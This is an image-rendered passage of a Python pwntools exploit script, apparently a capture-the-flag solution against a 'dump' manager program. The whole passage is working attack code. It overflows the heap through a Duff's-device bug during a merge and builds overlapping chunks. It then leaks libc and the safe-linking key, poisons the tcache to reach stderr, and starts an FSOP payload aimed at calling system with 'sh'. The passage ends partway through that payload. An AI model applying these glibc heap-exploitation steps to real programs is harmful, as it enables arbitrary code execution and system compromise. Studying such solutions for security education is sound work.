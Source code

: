 ```python
    io = conn()

    # Allocate 3 dumps.
    a = create_dump(io, 16)
    b = create_dump(io, 24)
    c = create_dump(io, 16)

    # We write p64(0x411) at the first 8 bytes of dump a.
    # Those are the bytes that will be appended in the overflow
    # to dump b during the merge.
    change_bytes(io, a, 0, p64(0x411))
    # Resize dump a to zero to exploit the bug in Duff's device.
    resize_dump(io, a, 0)
    # Do the merge, in effect we overwrite the heap's metadata.
    # Specifically we overwrite dump c's chunk size to 0x410.
    merge(io, b, a)

    # Free the chunk and allocate it again to get overlapping chunks.
    remove_dump(io, c)
    c = create_dump(io, 0x400)
    # Fix the top chunk size that got zeroed-out by the allocation.
    change_bytes(io, c, 16+8, p64(0x0000000000020d11))

    
    leaky_dump = create_dump(io, 0x1000)
    # Create a chunk so after freeing the one above it wont get merged
    # with the top chunk.
    guard_dump = create_dump(io, 32)
    remove_dump(io, leaky_dump)
    hx = hexdump_dump(io, c)
    libc_leak = u64(hx[32:32+8])
    info(f"{hex(libc_leak)=}")
    libc.address = libc_leak - 0x211b20
    info(f"{hex(libc.address)=}")

    # Create small chunks for tcache poisoning.
    d = create_dump(io, 0xf0-8)
    e = create_dump(io, 0xf0-8)
    f = create_dump(io, 0xf0-8)
    g = create_dump(io, 0xf0-8)
    
    remove_dump(io, g)
    hx = hexdump_dump(io, c)
    # Leak xor key to decrypt safe linking.
    xor_key = u64(hx[0x2f0:0x2f0+8])
    info(f"{hex(xor_key)=}")
    # Prepare chunks for tcache poisoning.
    remove_dump(io, f)
    remove_dump(io, e)
    remove_dump(io, d)

    # Poison tcache pointer to point to the stderr FILE struct.
    change_bytes(io, c, 0x20, p64(((libc.sym['_IO_2_1_stderr_']) ^ (xor_key))))
    x = create_dump(io, 0xf0-8)
    # Malloc returned a pointer inside of libc, with which we will do FSOP.
    target = create_dump(io, 0xf0-8)

    # Payload I have stolen from ptr-yudai.
    file = FileStructure(0)
    file.flags = u64(p32(0xfbad0101) + b";sh\0")
    file._IO_save_end = libc.sym["system"]
    file._lock = libc.sym["_IO_2_1_stderr_"] - 0x10
    file._wide_data = libc.sym["_IO_2_1_stderr_"] - 0x10
```